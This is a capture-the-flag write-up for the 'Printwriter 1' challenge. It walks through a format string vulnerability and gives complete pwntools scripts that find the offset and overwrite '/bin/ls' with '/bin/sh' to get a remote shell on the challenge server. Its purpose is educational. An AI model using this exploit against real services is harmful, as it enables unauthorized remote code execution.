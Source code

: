 ```yaml
---
ai_date: 2025-04-27 05:10:12
ai_summary: Format string attack exploited to gain remote shell by replacing '/bin/ls' with '/bin/sh'
ai_tags:
  - fmt-str
  - rop
  - shell
created: 2021-12-21T23:50
updated: 2025-07-14T09:46
---
```


## Printwriter 1

> My wonderful app works both as an echo server and a file lister!
>
> Bet you can't hack it!`nc 35.240.143.82 4203`

Only the compiled `chal` file was given, after decompiling it with Ghidra, I get

```cpp
undefined8 main(void)
{
    int32_t iVar1;
    char *format;
    
    setup();
    while( true ) {
        fgets(&format, 0x70, _stdin);
        iVar1 = strncmp(&format, "quit", 4);
        if (iVar1 == 0) break;
        printf(&format);
    }
    system("/bin/ls");
    return 0;
}
```

As I can see, and `printf` has been used to print the output directly.

This challenge is in the format string attack category, which I can verify with a simple `%x`

```
$ nc 35.240.143.82 4203
%x
402004
%s
quit
```

### pwntools

I can use pwntools to quickly create our format string payload

#### offset

I first have to find the offset which can be easily done with

```python
from pwn import *

conn = remote("35.240.143.82", 4203)
context.clear(arch='amd64')


def send_payload(p):
    conn.wait(1)
    conn.sendline(p)
    return conn.recv()


print("offset =", FmtStr(execute_fmt=send_payload).offset)
```

```
[x] Opening connection to 35.240.143.82 on port 4203
[x] Opening connection to 35.240.143.82 on port 4203: Trying 35.240.143.82
[+] Opening connection to 35.240.143.82 on port 4203: Done
[*] Found format string offset: 6
offset = 6
[*] Closed connection to 35.240.143.82 port 4203
```

#### what attack to use

In the decompiler, I noticed how `/bin/ls/` is located at `0x00404058`

 ![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221173130465.png)

If I edit `/bin/ls/` into `/bin/sh`, as they have same amount of characters, I can gain remote shell access.

Hence I will be using `fmtstr_payload` from pwntools

#### payload

```python
from pwn import *

conn = remote("35.240.143.82", 4203)

context.clear(arch='amd64')
payload = fmtstr_payload(0x6, {0x404058: b'/bin/sh'}, write_size='short')
conn.wait(1)
print("sending" + str(payload))
conn.sendline(payload)
print(conn.recv())
conn.sendline("quit")
conn.interactive()
```

We will be writing the string `/bin/sh` to address `0x404058` with offset `6`.

After sending the payload, `/bin/ls` will be changed to `/bin/sh`. This means that after I exit the loop with `quit`, it should give us shell access.

I will then switch to interactive to more easily take advantage of the shell.

```cpp
system("/bin/sh");
```

Indeed we gain remote shell access.

By running the command `ls`, I find `flag.txt`, and with `cat flag.txt`

```flag
cat flag.txt
flag{why_would_printf_be_able_to_write_memory????!!}
```

Flag obtained

> If you run the following you can find the message I left
>
> ```
> cd ~
> cd w
> cat README.txt
> Hello, I was here ;) ZY
> ```